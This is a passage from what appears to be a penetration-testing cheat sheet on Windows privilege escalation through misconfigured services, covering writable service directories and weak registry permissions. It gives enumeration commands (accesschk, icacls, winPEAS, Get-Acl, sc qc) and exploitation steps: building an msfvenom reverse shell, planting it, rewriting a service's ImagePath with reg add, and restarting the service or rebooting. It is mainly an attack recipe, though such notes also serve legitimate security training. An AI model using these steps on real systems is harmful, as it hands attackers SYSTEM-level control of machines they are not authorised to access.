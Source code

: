 Check start/stop privileges of service:
- `accesschk.exe /accepteula -cquv <username> <service name>`
- `sc qc <service name>`
- **Requirements**: 
	- if `START_TYPE` equal to `3 DEMAND_START`, `SERVICE_START` and `SERVICE_STOP` are required
	- if `START_TYPE` equal to `2 AUTO_START`, `SeShutdownPrivilege` is required

Check permission to **write** in one of the directories where Windows will check, **first**, for the presence of the executable:
- `accesschk.exe /accepteula -dquvw "</path/to/folder>"`
- `icacls "</path/to/folder>"`

check service's user:
- `sc qc <service name>`
- **Requirement**: `SERVICE_START_NAME` equal to `LocalSystem` (approximately)

Exploitation:
- create an executable reverse shell with *msfvenom*
- move the executable in the directory where you have write permission
- reboot vulnerable service:
	- (if `DEMAND_START`) `net stop <service name>` and `net start <service name>` (alternative: `sc`)
	- (if `AUTO_START` and `SeShutdownPrivilege` privilege) `shutdown /r /t 0`

### WeakRegistryPermissions

Vulnerable service identikit:
1. service for which the associated registry keys can be modified
2. service that starts automatically or for which you have start and stop privileges (`SERVICE_START` and `SERVICE_STOP`)
3. service runned by service account with elevated privileges, for example `LocalSystem`

Vulnerable service enumeration:
- `winpeas.exe servicesinfo` - ideal
- `accesschk.exe /accepteula <username> -kquvws hklm\System\CurrentControlSet\services` - **Requirement**: `KEY_ALL_ACCESS`
- `Get-Acl -Path HKLM:\SYSTEM\CurrentControlSet\Services\<service name> | fl` (PowerShell) - **Requirement**: `Allow FullControl` for our user

Check start/stop privileges of service:
- `accesschk.exe /accepteula -cquv <username> <service name>`
- `sc qc <service name>`
- **Requirements**: 
	- if `START_TYPE` equal to `3 DEMAND_START`, `SERVICE_START` and `SERVICE_STOP` are required
	- if `START_TYPE` equal to `2 AUTO_START`, `SeShutdownPrivilege` is required

check service's user:
- `sc qc <service name>`
- **Requirement**: `SERVICE_START_NAME` equal to `LocalSystem` (approximately)

Exploitation:
- create an executable reverse shell with *msfvenom*
- move the executable in the target directory
- edit `ImagePath` registry key of vulnerable service
	- `reg add HKLM\SYSTEM\CurrentControlSet\services\<service nam> /v ImagePath /t REG_EXPAND_SZ /D <path reverse.exe> /f`
- reboot vulnerable service:
	- (if `DEMAND_START`) `net stop <service name>` and `net start <service name>` (alternative: `sc`)
	- (if `AUTO_START` and `SeShutdownPrivilege` privilege) `shutdown /r /t 0`
